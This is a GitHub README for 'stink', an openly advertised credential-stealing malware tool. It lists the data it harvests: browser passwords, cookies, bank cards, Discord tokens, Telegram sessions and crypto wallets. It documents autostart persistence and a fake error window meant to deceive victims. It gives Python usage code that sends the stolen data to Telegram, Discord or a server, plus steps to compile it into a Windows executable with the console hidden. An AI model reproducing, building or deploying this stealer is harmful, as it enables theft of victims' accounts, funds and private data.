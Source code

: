 # stink

Stealer in just a few lines with sending to Telegram / Server / Discord. No dependencies, only built-in libraries.

**Wiki:** https://github.com/FallenAstaroth/stink/wiki

## Description
The `stink` already has an impressive functionality that will only expand.

## Navigation
* [Current features](#Сurrent-features)
* [Example usage](#Example-usage)
  * [Standard](#Standard)
  * [Certain modules](#Certain-modules)
  * [Additional parameters](#Additional-parameters)
* [Creating exe](#Creating-exe)
  * [Creating executable file](#Creating-executable-file)
  * [With BAT](#With-BAT)
  * [With CMD](#With-CMD)

### Current features
1. Support for the following browsers:
   - Chrome
   - Opera
   - Opera GX
   - Edge
   - Brave
   - Vivaldi
2. Collecting the following data:
   - Screenshot
   - Cookies
   - Passwords
   - Bank cards
   - History
   - Bookmarks
   - IP-address
   - System configuration
   - Active processes
   - Discord tokens
   - Telegram sessions
   - FileZilla hosts
   - Crypto wallets:
       - Metamask
       - Phantom
   - Steam configs
3. Support for browser multiprofiles.
4. Sending an archive of collected data to Telegram / Server / Discord.
5. Execution in a separate thread.
6. Execution using multiprocessor.
7. Possibility to add to autostart.
8. Showing a window with a fake error.

## Example usage
### Standard
```python
from stink import Stealer, Senders

if __name__ == '__main__':
    Stealer(senders=[Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)]).run()
```
### Certain modules

An example with only system data collection and screenshot.
```python
from stink import Stealer, Features, Senders

if __name__ == '__main__':
    Stealer(
        senders=[
            Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)
        ], 
        features=[
            Features.system,
            Features.screenshot
        ]
    ).run()
```
### Additional parameters

- `features` - enables modules from the list. Modules can be imported from `stink.enums.Features`. Available modules:

  - `passwords` - collecting passwords.

  - `cookies` - collecting cookies.

  - `cards` - collecting bank cards.

  - `history` - collecting search history.

  - `bookmarks` - collecting bookmarks.

  - `extensions` - collecting browser extensions.

  - `processes` - collecting active processes.

  - `system` - collecting system configuration.

  - `screen` - screenshot.

  - `discord` - collecting Discord tokens.

  - `telegram` - collecting Telegram sessions.

  - `filezilla` - collecting FileZilla hosts.

  - `wallets` - collecting crypto wallets.

  - `steam` - collecting Steam configs.


- `utils` - enables the utilities from the list. Utilities can be imported from `stink.enums.Utils`. Available utilities:

  - `autostart` - adding to autostart.

  - `message` - showing a fake error window.


- `senders` - launches sending methods from the list. Sending methods can be imported from `stink.enums.Senders`. Available sending methods:

  - `server` - sending to server.

  - `telegram` - sending to Telegram.

  - `discord` - sending to Discord.
  
## Creating exe
Python is an interpreted programming language, so we first translate it into C and then compile it into an .exe file.
We will need Nuitka to do this.

### Creating executable file

1. [Download](https://github.com/FallenAstaroth/stink/archive/refs/heads/master.zip) archive.
2. Unpack the archive and go to the directory stink-master.
3. Create test.py (or any other name) file in the same directory with the following code:
```python
from stink import Stealer, Senders

if __name__ == '__main__':
    Stealer(senders=[Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)]).run()
```

#### With BAT
1. Run compiler.bat.


#### With CMD
1. Open `cmd`.
2. Type in the command:
```
pip install virtualenv
```
3. Go to the folder with the `test.py` file:
```
cd path\to\file
```
4. Create a virtual environment and activate it:
```
virtualenv venv
```
```
venv\Scripts\activate
```
5. Install the Nuitka:
```
pip install Nuitka==0.6.16.4
```
6. To reduce the file size, additionally install Zstandard (optional):
```
pip install zstandard==0.17.0
```
7. Write the command:
```
nuitka --onefile --plugin-enable=multiprocessing --windows-disable-console test.py
```

After executing the command we get the test.exe file with the hidden console.
